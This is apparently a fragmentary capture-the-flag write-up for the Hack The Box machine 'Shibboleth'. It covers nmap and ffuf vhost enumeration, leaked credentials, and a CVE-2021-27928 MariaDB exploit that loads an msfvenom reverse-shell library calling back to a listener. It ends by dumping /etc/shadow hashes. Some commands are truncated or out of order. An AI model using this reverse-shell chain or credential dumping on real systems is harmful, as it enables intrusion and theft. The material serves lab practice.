

80/tcp open http syn-ack ttl 63 Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
add the domain to /etc/hosts
Access the website:
checking vhosts
ffuf -u http://shibboleth.htb/ -H "HOST: FUZZ.shibboleth.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-med ium-words.txt -mc 200
found monitor monitoring Monitor adding that to /etc/hosts
Team:
walter white chief executirve officer
sarah jhonson product Manager
william anderson CTO
Amanda Jepson accountant
loggin ?????
Administrator:ilovepumkinpie1
after doing so you will get a shell on the port you specifed.
we cant test for sudo -l
we can now access my sql db
checking version on mariadb
database password: bloooarskybluh
https://github.com/Al1ex/CVE-2021-27928 found an exploit for 10.3.25
Step 1: on kali generate payload. sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.181 LPORT=6687 -f elf-so -o pwnd.so
Step 2: Start a listener nc -lnvp 6687
Step 3: Via Dumpfile
python3 -c 'print(open("CVE-2021-27928.so", "rb").read().hex())'
mysql -u
Step 4: Execute the Payload
mysql -u
cat /etc/shadow
root:$6$HeRqkRJL9pttp4EY$TBE4vztPy9lOaywPhVdhQHwiPa09s7RJw418EMjmS0RKea/1QBwLqTHK84ato5yDBF59dMvSNbQQ1pVy.K1dp.:18741:0:99999:7:::
PasswordHash: For PDF in ~/Downloads
ipmi-svc:$6$rnKUQQE9QwT1bVVt$7JWeqxtaYfMZa0EO0clguLK4Fh3N/IN6djXUl2M2MQ5PHVmQ1vLwlxnNMVhn7y/oEpjltVyvbw1wbBBZ//apV.:18925:0:99999:7:::